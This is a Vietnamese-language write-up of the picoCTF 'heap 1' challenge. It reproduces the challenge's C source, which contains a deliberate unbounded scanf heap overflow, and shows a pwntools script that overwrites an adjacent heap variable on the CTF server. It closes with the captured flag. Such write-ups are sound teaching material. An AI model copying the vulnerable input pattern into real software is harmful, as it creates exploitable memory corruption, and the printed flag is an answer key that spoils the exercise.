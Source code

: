 # Heap 1
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.

Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta thấy nếu nhập số `4` thì hàm `check_win()` sẽ được gọi. Nhìn vào hàm `check_win()`, ta thấy:

``` c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Ta thấy hàm sẽ in flag nếu `safe_var` bằng với chuỗi `pico`. Ta có `safe_var` được khởi tạo ban đầu là `bico`. Ta sẽ cố gắng làm cho `save_var` bằng với chuỗi `pico`.

Nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (ở lựa chọn số 2).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/a8cd71d5-ad42-422d-a695-003517818a88)

Ở địa chỉ `0x64174383d6b0` đang lưu trữ chuỗi pico (input được nhập vào sẽ lưu trữ từ đây). Và địa chỉ `safe_var` là `0x64174383d6d0` đang lưu trữ chuỗi bico. Ta thấy offset là 32 bytes, ta sẽ thử nhập 32 kí tự `a` và nhập chuỗi pico ở cuối.

![image](https://github.com/user-attachments/assets/ce1ff2f7-278b-4f44-9661-804d938de6b1)

Ta thấy rằng vùng nhớ trên heap mà `safe_var` trỏ đến đã bị ghi đè thành chuỗi `pico`.

Thực hiện print flag (số 4)

![image](https://github.com/user-attachments/assets/394f4402-341b-404f-95ca-ac8a792be744)

Tôi `WIN` =))))))). Và tôi có file exploit như sau:

``` python 
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 57638)
write = b'2'
flag = b'4'
payload = 32 * 'a'
payload += "pico"
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{starting_to_get_the_hang_21306688}
```

